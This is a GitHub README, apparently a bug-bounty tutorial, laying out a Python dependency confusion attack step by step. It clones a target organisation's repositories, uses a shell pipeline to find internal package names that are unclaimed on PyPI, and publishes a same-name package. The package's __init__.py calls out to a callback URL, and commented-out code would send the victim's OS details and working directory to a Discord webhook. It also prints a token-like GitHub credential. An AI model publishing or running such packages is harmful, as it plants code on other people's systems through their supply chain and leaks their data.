 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>


## How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

#### Download all target github repository
- Crate personal access tokens (classic):- https://github.com/settings/tokens
- Install ghorg - https://github.com/gabrie30/ghorg#installation
```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone google -t 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`
    
    
- After Download all repository finds vulnerable python package

```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} | cut -d ">" -f 1 | cut -d " " -f 1 |  sort -u | cut -d "=" -f1 | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- So now Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


import request
#from discord import SyncWebhook
#import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target system info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```
- [+]note: The version of package and the version of the vulnerable package must be same
    
```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code execution (RCE)'

# Setting up
setup(
    name="<package-name>",
    version=VERSION,
    author="<techghoshal>",
    author_email="<techghoshal@gmail.com>",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Next build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly (https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
Upload IS DONE 😎 
<br>
🎉 Now Bounty Time 💰💰



